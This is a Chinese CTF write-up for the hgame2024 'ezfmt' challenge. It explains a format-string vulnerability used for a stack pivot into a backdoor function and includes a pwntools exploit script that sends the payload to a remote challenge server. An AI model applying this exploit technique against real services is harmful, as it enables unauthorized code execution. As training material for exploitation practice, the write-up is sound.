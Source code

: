 ```yaml
---
title: hgame2024 week1 - ezfmt string 
date: 2024/2/5 19:50:00
tags:
    - fmt-string
    - stack pivot
    - 1-digit guess
excerpt: CTF题目利用格式化字符串漏洞和栈迁移执行后门函数，需猜测rbp地址。
---
```


## 文件属性

|属性  |值    |
|------|------|
|Arch  |x64   |
|RELRO|Partial|
|Canary|on    |
|NX    |on    |
|PIE   |off   |
|strip |no    |

## 解题思路

考察格式化字符串却不给libc，说明要找共通之处，先patch一下2.31，发现依赖更高版本，
遂尝试2.35，两者不变的地方在于靠近rbp的位置有一个指向rbp的指针，并且binary中还有一个后门函数。
如果直接把后门函数写到retAddr上，那么会因为栈无法对齐而SIGSEGV，于是可以修改rbp，打栈迁移，
把栈迁移到输入的后门函数地址的下方，这样在main函数返回时就会执行之；不过输入前没有输出，
栈迁移到哪里是盲打的，只有1/16的概率能够命中

## EXPLOIT

```python
from pwn import *
context.terminal = ['tmux','splitw','-h']

def payload(lo:int, rbp:int=0x58):
    global sh
    if lo:
        sh = process('./fmt')
        if lo & 0b10:
            gdb.attach(sh)
    else:
        sh = remote('47.100.137.175', 32034)
    elf = ELF('./fmt')
    sysAddr = elf.symbols['sys']

    if lo & 0b100:
        byte = int(input('input known addr of rbp( & 0xff ):'), 16) # 输入sysAddr - 8的最后一字节以准确命中
    else:
        byte = rbp

    # payload, stack pivot to &sysAddr
    sh.sendline(f'%{byte}c%18$hhn'.ljust(0x10).encode() + p64(sysAddr)) # <- sysAddr is here

    sh.clean(0.5) # have a clean shell
    sh.interactive()
```
